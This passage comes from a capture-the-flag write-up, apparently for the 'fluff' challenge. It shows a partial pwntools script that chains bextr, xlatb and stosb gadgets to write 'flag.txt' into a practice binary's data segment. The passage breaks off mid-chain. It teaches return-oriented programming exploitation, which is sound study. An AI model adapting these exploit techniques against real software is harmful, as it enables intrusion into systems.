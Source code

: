 If we convert `0x66` to ascii, we can verify that we set the `AL` register to `f`:

```
$ python3
Python 3.8.5 (default, Aug  2 2020, 15:09:07)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> chr(0x66)
'f'
>>>
```

## Crafting the Exploit - Writing to the .data segment (RDI)

Now we just need to write the value in `AL` to the memory address pointed to by `RDI` enough times to write `flag.txt`.

Let's update the code to look like the following:

```python
import ctypes
from pwn import *

def prepare_rbx(target, rop):
    pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget = p64(0x0040062a)      # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
    rop.raw(pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget)
    rop.raw(p64(0x4000)) # Extract 64 bits from offset 0 in RCX. Results will be written to RBX.
    rop.raw(p64(ctypes.c_ulong(target - magic_const).value))

def prepare_al(target, current_al, rop, elf):
    '''
    return: The current value in the AL register
    '''
    xlat_ret_gadget = p64(0x00400628)                               # xlatb; ret;
    target_byte_addr = next(elf.search(target))
    rbx = ctypes.c_ulong(target_byte_addr - current_al).value
    prepare_rbx(rbx, rop)
    rop.raw(xlat_ret_gadget)
    return target

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './fluff'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x00400639"
pid = gdb.attach(io, gdbscript=gdbscript)

# Gadgets
rop = ROP(io.elf)
writable_data_segment = p64(0x00601028)
stosb_gadget = p64(0x00400639)                                  # stosb byte [rdi], al; ret;
pop_rdi_ret = p64(0x004006a3)                                   # pop rdi; ret;
magic_const = 0x3ef2

# Build the ROP chain

# Point RDI to the writeable data segment
rop.raw(pop_rdi_ret)
```